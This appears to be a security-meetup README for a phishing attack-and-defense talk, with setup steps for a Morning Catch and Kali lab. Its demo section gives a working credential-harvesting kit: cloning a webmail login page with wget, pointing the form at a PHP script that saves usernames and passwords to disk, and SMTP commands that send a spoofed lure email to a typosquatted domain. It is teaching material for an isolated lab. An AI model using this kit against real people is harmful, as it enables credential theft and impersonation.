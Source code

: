 # Intro to Phishing: Attack and Defense
## Topic
Phishing is one of the few attack vectors that has become more popular over time, even today large campaigns are carried out against the general public and spear phishing attacks are targeting specific corporations. This week we will be looking at examples of past attacks, the different stages of the phishing process and how you can defend your company or family and friends against attacks. There will be a demo of a credential harvesting attack using "Morning Catch", you can follow along during the talk by setting up the VM environment detailed here: https://github.com/dc865/presentations/blob/master/intro-to-phishing/README.md

## Demo Environment

### Downloads

 - [Morning Catch - A Phising Paradise](http://blog.cobaltstrike.com/2014/08/06/introducing-morning-catch-a-phishing-paradise/)
 - [Morning Catch VulnHub.com Download](https://www.vulnhub.com/entry/morning-catch-phishing-industries,101/)
 - [Kali Linux Downloads](https://www.kali.org/downloads/)

### Virtual Machine Setup

#### VMware Player 

Morning Catch
 - Unzip morningcatch.zip
 - Open it by selecting the **Mint.vmx** file
 - Edit the virtual machine settings and change the network adapter from NAT to Host Only. 

Kali Linux
 - Create a new virtual machine and select the Kali iso as the installation media 
 - Follow the setup instructions and change the Network Adapter to Host Only
 - Choose Install from the Kali boot menu and follow the installation instructions 

#### VirtualBox 

Morning Catch 
 - unzip morningcatch.zip
 - Create a new virtual machine and use Mint.vmdk as the storage device
 - Set the networking to Host Only 

Kali Linux
 - Create a new virtual machine and select the Kali iso as the installation media 
 - Follow the setup instructions and change the Network Adapter to Host Only
 - Choose Install from the Kali boot menu and follow the installation instructions 

### Networking Setup

Add the Kali host entry to /etc/hosts in Morning Catch:

```
<Attacker IP>	mornincatch.ph
```


Add the Morning Catch and Kali host entries to /etc/hosts on the Kali VM: 

```
<Attacker IP>	mornincatch.ph
<Victim IP>	morningcatch.ph
```

### Test the Demo Environment

On Morning Catch log in as Boyd Jenius and open a terminal. Try to ping the Kali VM using the hostname you added to /etc/hosts:

```bash
$ ping mornincatch.ph
```

On the Kali VM log in using the account you created and verify that the morningcatch.ph services are available:

```bash
$ ping morningcatch.ph
$ nc -z morningcatch.ph 25
$ firefox morningcatch.ph
```

### Cloning morningcatch.ph

Using wget we can clone the site: 

```bash
wget -r -l1 -k -p morningcatch.ph/mail/
sudo mv morningcatch.ph/mail /var/www/html/
sudo vim /var/www/html/mail/index.html
```

In order to capture the credentials entered into our site we need to modify the login form to call a php script that will save the form input to disk.

Old post element:

```html
<form name="form" action="index.html" method="post">
```

New post element:

```html
<form name="form" action="form.php" method="post">
```

### PHP Script for Saving Credentials

```php
<?php

$user = $_POST['_user'];
$pass = $_POST['_pass'];

$f = fopen("creds.txt", "a");

fwrite($f, "$user:$pass\n");

fclose();
header("Location: http://morningcatch.ph/mail/");
die();
?>
```

## Email Commands

```
telnet morningcatch.ph 25
ehlo morningcatch.ph
mail from: bjenius@morningcatch.ph
rcpt to: rbourne@morningcatch.ph
data
Subject: 

We are currently testing a new performance configuration for the webmail site, please test the site changes by visiting: http://mornincatch.ph/mail/

Boyd

.
quit
```
